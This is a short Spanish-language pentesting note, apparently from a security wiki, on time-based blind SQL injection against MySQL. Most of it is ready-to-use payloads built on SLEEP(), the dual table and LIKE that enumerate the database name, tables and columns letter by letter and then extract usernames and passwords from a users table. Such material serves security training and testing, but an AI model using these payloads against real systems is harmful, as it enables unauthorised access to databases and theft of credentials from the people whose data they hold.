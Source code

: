 ```yaml
---
description: >-
  Si el servidor no muestra los resultados de las busquedas, tendremos que
  utilizar este método o el anterior para obtener los resultados.
---
```


# TIME-BASED BLIND SQLI

## **DETERMINAR EL NOMBRE DE LA BASE DE DATOS CON TIME-BASED BLIND SQL INJECTION**

 Esta forma de aprovechar las vulnerabilidades SQL injection se basa en la orden **SLEEP\(\)** que retrasa la recarga de la pagina, en **tablas duales** y **LIKE**.

 **`1 ‘ AND (SELECT sleep(4) FROM dual WHERE database() LIKE ’HO%') -- -`**

 Esto permite hacer varias cosas:

* Si la condicion segunda se cumple \(detras del where\), se cumplira el sleep.
* LIKE permite hacer la aproximacion letra a letra mas sencilla
* ‘a%’ → indica que empieza por a y el resto es cualquier cosa
* ‘\_\_\_\_’ → indica que la base de datos es de 4 caracteres \(debemos sustituarlas por los caracteres\).

## **DETERMINAR LAS TABLAS CON TIME-BASED BLIND SQL INJECTION**

**`1 ‘ AND (SELECT sleep(4) FROM dual WHERE (SELECT table_name FROM information_schema.columns WHERE table_schema=database() LIMIT 0,1) LIKE ’____') -- -`**

 Vamos modificando lo que sigue a LIKE para llegar a obtener el resultado final. Una buena forma es ir reemplazando las vocales en cada posicion.

## **DETERMINAR LAS COLUMNAS CON TIME-BASED BLIND SQL INJECTION**

**`1 ‘ AND (SELECT sleep(4) FROM dual WHERE (SELECT column_name FROM information_schema.columns WHERE table_schema=database() AND table_name='users' LIMIT 0,1) LIKE ’____') -- -`**

## **EXTRAER DATOS DE LA BASE DE DATOS CON TIME-BASED BLIND SQL INJECTION**

 Ahora que ya tenemos seleccionadas las COLUMNAS de las que queremos extrar informacion, vamos a por ello:

 **`1 ‘ AND (SELECT sleep(4) FROM dual WHERE (SELECT user FROM users LIMIT 0,1) LIKE ’_____') -- -`**

 **`1 ‘ AND (SELECT sleep(4) FROM dual WHERE (SELECT password FROM users LIMIT 0,1) LIKE ’_____') -- -`**

 Esta password podria estar hasheada lo que haria esta tarea titanica.

